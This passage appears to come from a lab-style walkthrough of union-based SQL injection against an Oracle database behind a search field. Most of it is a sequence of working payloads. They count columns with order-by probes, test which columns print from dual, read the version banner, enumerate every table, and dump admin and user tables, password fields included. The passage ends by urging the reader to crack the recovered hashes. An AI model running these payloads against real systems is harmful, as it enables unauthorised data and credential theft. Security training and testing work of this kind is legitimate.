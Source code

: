 | Syntax | Description |
| ----------- | ----------- |
| ' order by 1-- | no error message |
| ' order by 5-- | error message |
| ' order by 4-- | error message |
| ' order by 3-- | no error message |
So as of now we know that 3 is the last column which worked, let us prepare the union select statement
```
' union select 1,2,3--
```
Error Message:
>Something went wrong with the search: java.sql.SQLSyntaxErrorException: ORA-00923: FROM keyword not found where expected
>Unlike MySQL Oracle do not allow select statement without from clause. As we have prepared the Union select statement our next task is to check which column is getting printed that we can do by random testing each column one by one by printing the current database name
Testing for columns:
```SQL
' union select 1,2,3 from dual--
```
```SQL
' union select null,null,null from dual--
```
```SQL
' union select '1111',null,null from dual--
```
```SQL
' union select null,'2222',null from dual--
```
```SQL
' union select null,null,'3333' from dual--
```
```SQL
' union select user,null,null from dual--
```
Finding the version:
```SQL
' union select (select banner from v$version where rownum=1),null,null from dual--
```
Finding all table names:
```SQL
' union select table_name,null,null from all_tables--
```
Dumping columns of found table:
```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_ADMINS'--
```
Dumping values of found columns:
```SQL
' union select ADMIN_ID||ADMIN_NAME||PASSWORD,null,null from WEB_ADMINS--
```
```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_CONTENT'--
```
```SQL
' union select AUTHOR||CONTENT_ID||RELEASEYEAR||TITLE,null,null from WEB_CONTENT--
```
```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_USERS'--
```
```SQL
' union select PASSWORD||USER_ID||USER_NAME,null,null from WEB_USERS--
```
Take hash value and crack!

